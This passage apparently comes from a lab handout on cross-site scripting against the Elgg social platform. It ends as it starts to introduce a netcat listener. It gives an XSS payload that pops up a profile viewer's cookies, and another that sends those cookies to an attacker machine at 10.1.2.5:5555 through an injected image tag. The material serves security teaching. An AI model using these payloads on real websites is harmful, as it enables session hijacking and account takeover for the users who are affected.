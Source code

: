 \subsection{Task 2: Posting a Malicious Message to Display Cookies}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile,
the user's cookies will be displayed in the alert window.
This can be done by adding some additional code to
the JavaScript program in the previous task:
\begin{lstlisting}
<script>alert(document.cookie);</script> 
\end{lstlisting}



\subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine (with IP address {\tt 10.1.2.5}), where the attacker has a TCP server
listening to the same port.  

\begin{lstlisting}
<script>document.write('<img src=http://10.1.2.5:5555?c=' 
                       + escape(document.cookie) + '   >'); 
</script> 
\end{lstlisting}


A commonly used program by attackers is \texttt{netcat} (or \texttt{nc}) , which, if running with
the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the specified
port. This server program basically prints out whatever is sent by the client and sends to the
client whatever is typed by the user running the server. Type the command below to listen on
port \texttt{5555}:

